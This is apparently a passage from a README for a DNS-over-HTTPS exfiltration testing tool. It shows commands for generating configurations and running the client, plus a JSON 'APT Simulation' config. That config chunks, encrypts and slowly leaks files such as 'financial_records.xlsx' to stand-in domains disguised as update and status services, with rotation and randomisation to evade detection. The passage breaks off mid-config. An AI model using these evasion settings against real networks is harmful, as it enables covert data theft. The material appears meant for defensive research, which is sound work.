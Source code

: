 #### Generate Configurations
```bash
cd exfiltration/client/

# Create new configuration interactively
python config_generator.py --create

# Create template configurations
python config_generator.py --templates

# List available configurations
python config_generator.py --list
```

#### Available Configuration Templates
- **Quick Test**: Basic validation configuration
- **Stealth Research**: Advanced evasion techniques
- **Speed Benchmark**: Maximum speed testing
- **APT Simulation**: Advanced persistent threat simulation

### Running Exfiltration Tests

#### Using Configuration Files
```bash
# Run with specific configuration
python run_client.py --config test_configs/apt_simulation.json

# Test configuration before running
python config_generator.py --test apt_simulation.json

# Run with custom file
python run_client.py --config quick_test.json --file custom_data.txt
```

#### Configuration Examples

**APT Simulation Example:**
```json
{
  "name": "APT Simulation",
  "description": "Simulation d'APT avec exfiltration très lente et discrète",
  "exfiltration_config": {
    "doh_server": "https://doh.local/dns-query",
    "target_domain": "update-service.local",
    "chunk_size": 8,
    "encoding": "base32",
    "timing_pattern": "random",
    "base_delay": 30.0,
    "delay_variance": 15.0,
    "compression": true,
    "encryption": true,
    "encryption_key": "apt_long_term_key",
    "subdomain_randomization": true,
    "domain_rotation": true,
    "backup_domains": [
      "security-updates.local",
      "maintenance-api.local", 
      "status-check.local"
    ],
    "padding": true,
    "padding_size": 20
  },
  "test_files": [
    "financial_records.xlsx",
```